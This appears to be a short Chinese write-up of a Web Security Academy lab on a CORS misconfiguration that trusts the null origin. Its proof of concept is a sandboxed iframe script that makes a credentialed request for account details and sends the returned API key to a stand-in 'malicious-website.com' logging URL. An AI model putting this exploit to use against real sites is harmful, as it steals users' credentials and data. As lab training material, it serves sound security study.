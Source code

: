 

![](images/B72D14489EAE4567A8665558FC2F08C2clipboard.png)

当origin:null时也可以获取到apikey，说明存在cors漏洞



在本地用html验证

![](images/145DB686C5FB4C969DE9DBE31D5F3DB8clipboard.png)

poc:

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://ac8d1f4c1ebc2af2806b9d9d00df0041.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
    //恶意网站
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

将该脚本部署到恶意网站，用户访问即可获取信息。